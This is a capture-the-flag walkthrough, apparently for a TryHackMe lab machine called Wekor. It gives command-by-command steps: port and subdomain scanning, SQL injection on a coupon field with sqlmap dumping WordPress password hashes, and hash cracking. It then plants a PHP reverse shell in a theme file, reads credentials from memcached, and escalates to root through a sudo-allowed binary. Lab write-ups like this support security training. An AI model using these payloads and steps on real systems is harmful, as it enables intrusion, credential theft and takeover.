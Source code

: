 sudo nmap -sV -sC -Pn 10.17.70.209

echo "10.17.70.209 wekor.thm" | sudo tee -a /etc/hosts

`Check http://wekor.thm/robots.txt file`
```
User-agent: *
Disallow: /workshop/
Disallow: /root/
Disallow: /lol/
Disallow: /agent/
Disallow: /feed
Disallow: /crawler
Disallow: /boot
Disallow: /comingreallysoon
Disallow: /interesting
```

Check all urls and found hint into this http://wekor.thm/comingreallysoon

http://wekor.thm/it-next/

Now find Subdomains

ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.wekor.thm" -u http://wekor.thm -fs 23 -mc 200 -t 60

Found a subdomain http://site.wekor.thm/

echo "10.17.70.209 site.wekor.thm" | sudo tee -a /etc/hosts

Let's FUZZ this subdomain

ffuf -w /usr/share/wordlists/fuzz/fuzz.txt -u http://site.wekor.thm/FUZZ -fs 23 -t 60 -mc 200,301,403

I got a dir that is wordpress site http://site.wekor.thm/wordpress/

wpscan --url http://site.wekor.thm/wordpress/ -e ap,u

Nothing is there.

After many tring I found a sql error on coupon input in this page http://wekor.thm/it-next/it_cart.php

sqli payload ' or 1 = 1 -- -

Now hit the coupon's input with sql payload and intercept it with burpsuite. After that Copy full coupon input code like below and scan with sqlmap tool

"coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon"

sudo sqlmap -u "http://wekor.thm/it-next/it_cart.php" --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" --schema --batch --threads=3

sudo sqlmap -u "http://wekor.thm/it-next/it_cart.php" --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" -D wordpress -T wp_users --dump --batch --threads=3

I got username and password hash

Find out hash type

hashid password_hash

It's (MD5). Save hash into any `.txt` file and run below hashcat command using rockyou wordlist

hashcat -a 0 -m 400 pass.txt /usr/share/wordlists/rockyou.txt

john hash cracking command
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt pass.txt

Cracked password is here.

Go to wp default login page location and use above cracked credentials
http://site.wekor.thm/wordpress/wp-login.php

Now download any php revers shell. I used https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 

ip addr

Copy tun0 ip from terminal and edit downloaded php-reverse-shell file and replace IP with you've copied tun0 ip also change port as you want 2323


Go to theme editor option click `I understand`  and replace all `404.php` code with edited `php-reverse-shell` file and save it. Now hit below url on your browser.
http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/404.php

nc -lvnp 2323

python3 -c 'import pty; pty.spawn("/bin/bash")'

ps aux | grep memca

echo "get username" | nc -vn -w 1 127.0.0.1 11211
Orka

echo "get password" | nc -vn -w 1 127.0.0.1 11211
Hope you got password

cd /home/Orka
cat user.txt
user Flag 

sudo -l

mv Desktop m

mkdir Desktop

cp /bin/sh ./Desktop/bitcoin

sudo /home/Orka/Desktop/bitcoin

whoami

cd ../../

cd root

cat root.txt

root Flag 
